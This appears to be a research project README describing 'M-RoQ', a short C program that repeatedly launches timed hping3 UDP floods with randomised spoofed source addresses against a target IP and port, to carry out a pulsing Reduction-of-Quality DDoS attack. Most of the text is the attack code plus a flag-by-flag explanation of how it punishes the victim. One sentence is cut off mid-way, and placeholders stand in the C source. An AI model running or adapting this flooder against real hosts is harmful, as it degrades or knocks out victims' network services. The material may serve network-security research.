 # M-RoQ software

The M-RoQ (Manipulated-RoQ) software was developed to manipulates the flooding of the Hping3 software. The aim is that the      

#include <stdio.h><br>
#include <string.h><br>
#include <stdlib.h><br>
#include <time.h><br>
#include <unistd.h><br>
<br>
main()<br>
{<br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;while(<time in seconds>)<br>
	{<br>
		system("timeout <time in miliseconds> hping3 --rand-source --flood -2 <dst IP> -p <dst PORT> -d <packet lenght> &");<br>
		usleep(<time in miliseconds>);<br>
        	time in seconds++;<br>
	}<br>
    	system("killall -9 hping3");<br>
}<br>

Where <time in seconds> represents the total time that RoQ attack will act. The timeout command represents the total time in miliseconds that the attack traffic will punish the victim. The hping3 is the flooding DDoS software that will generate the traffic. The --rand-source is the option related to the IP manipulation. the --flood option is related the huge amount o data traffic to sent. the -2 option means that the message sent is UDP. The <dst IP> and <dst PORT> options means the IP target and PORT targe, respectively. The <packet lenght> option means the lenght of the packet sent.<br>
<br>
Finally, the system("killall -9 hping3") command kills the hping3 software to stop the traffic process.<br> 
<br>
Authors:<br>
Vinícius de Miranda Rios<br>
Pedro R. M. Inácio<br>
Damien Magoni<br>
Mário M. Freire<br>
